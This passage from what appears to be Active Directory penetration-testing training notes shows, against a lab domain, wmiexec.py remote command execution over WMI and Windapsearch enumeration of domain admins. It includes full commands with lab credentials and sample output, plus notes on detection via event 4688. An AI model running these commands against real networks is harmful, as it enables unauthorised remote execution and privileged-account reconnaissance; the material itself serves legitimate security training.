 [Wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands). It would still likely be caught by most modern anti-virus and EDR systems.

#### Using wmiexec.py
```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

![[wmiexec-action.gif]]

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. Vigilant defender can look at event ID [4688: A new process has been created](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4688) and see a new process create to spawn cmd.exe and issue a command. This isn't always malicious since WMI is wildly used, but it can be a tip-off in an investigation.

## Windapsearch

[Windapsearch](https://github.com/ropnop/windapsearch) is another handy Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries.

We have several options with Windapsearch to perform standard enumeration (dumping users, computers, and groups) and more detailed enumeration. The `--da` (enumerate domain admins group members ) option and the `-PU` ( find privileged users) options. The `-PU` option is interesting because it will perform a recursive search for users with nested group membership.

### Windapsearch - Domain Admins
```shell-session
$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da

[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 u:INLANEFREIGHT\forend
[+] Attempting to enumerate all Domain Admins
[+] Using DN: CN=Domain Admins,CN=Users.CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+]	Found 28 Domain Admins:

cn: Administrator
userPrincipalName: administrator@inlanefreight.local

cn: lab_adm

cn: Matthew Morgan
userPrincipalName: mmorgan@inlanefreight.local

<SNIP>
```
